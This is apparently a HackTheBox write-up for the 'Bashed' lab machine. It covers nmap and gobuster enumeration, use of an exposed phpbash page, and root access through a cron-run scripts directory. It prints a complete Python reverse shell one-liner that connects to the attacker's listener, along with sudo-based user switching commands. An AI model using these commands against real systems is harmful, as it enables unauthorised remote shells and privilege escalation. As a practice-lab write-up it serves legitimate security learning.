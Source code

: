 #HackTheBox 

## <span style="color:#92d050">About </span>

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,

------
## <span style="color:#92d050">Recon</span> 

Nmap scan : 
```shell
nmap -A 10.10.10.68 -oN nmap_scan.txt 
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 05:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.70 seconds
```

we only have one port open that greatly reduce our time of enumeration .
Operating System : Linux 

---------
## <span style="color:#92d050">HTTP - 80</span> 

 - we have apache httpd service running on port 80 .
 - version : Apache httpd 2.4.18 ((Ubuntu))

Site : 
Bashed/Pasted image 20230822151105.png
General information about php bash on site .

after some enumeration we find out that php bash is implemented on this system as well .
![[Pasted image 20230822153753.png]]

so I run gobuster to find the directory :
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html,.php,.xml,.txt
```

```
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 7743]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/contact.html         (Status: 200) [Size: 7805]
/about.html           (Status: 200) [Size: 8193]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

I found lot's of directory and started looking for phpbash.php and found it in /dev :
![[Pasted image 20230822154010.png]]

I click on it and it allowed me to run cmd on target machine so i use python reverse shell to connect to my attacker machine nc listener :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

before i started a nc listener and got a shell .
```
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55758
www-data@bashed:/var/www/html/dev$ whoami
www-data
www-data@bashed:/var/www/html/dev$
```

user.txt :
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
88d56d080afddcb62d805e3d09cb7ef2
www-data@bashed:/home/arrexel$ sudo -l
```

I Found user.txt in user arrexel home directory .

-------
## <span style="color:#92d050">Priv Esc</span> 

#Linux

 - After Getting initial access we started post exploitation by first checking the sudo right .

```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

and find out i can run any thing as user scriptmanager .

so i run this cmd to get scriptmanager's shell :
```
sudo -u scriptmanager bash -i
```

and we switch to user :
```
scriptmanager@bashed:/home$ whoami
whoami
scriptmanager
scriptmanager@bashed:/home$
```

I moved to "/" directory and found a /script directory with scriptmanager as owner usually all directory in "/" are owned by root :
![[Pasted image 20230822163842.png]]

checking /scripts:
```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Aug 22 04:04 test.txt
```

we have two files and we have read permission to both of them .
checking content of test.txt :
```
scriptmanager@bashed:/scripts$ cat test.txt 
cat test.txt 
testing 123!
```

checking test.py :
```
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

if we look closely test.py is writing to test.txt but test.txt is owned by root and only he can write , that means test.py is executing with root permission in fact all python files in "/scripts" are executing as root permission because of cronjob mentioned in about section .

so i stored a reverse shell code in rev.py and transfer it using python http server and wget on target machine :
![[Pasted image 20230822164503.png]]

I started a nc listener and wait for some time for script to run and i got a reverse shell .
```
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55176
# whoami
whoami
root
```

I spawn a tty shell using python one liner :
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

the root.txt :
```
root@bashed:~# ls -al
ls -al
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Aug 22 04:00 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt 
cat root.txt 
7d0e756e0b28cee1b2a7de2cb4b28053
root@bashed:~# 
```

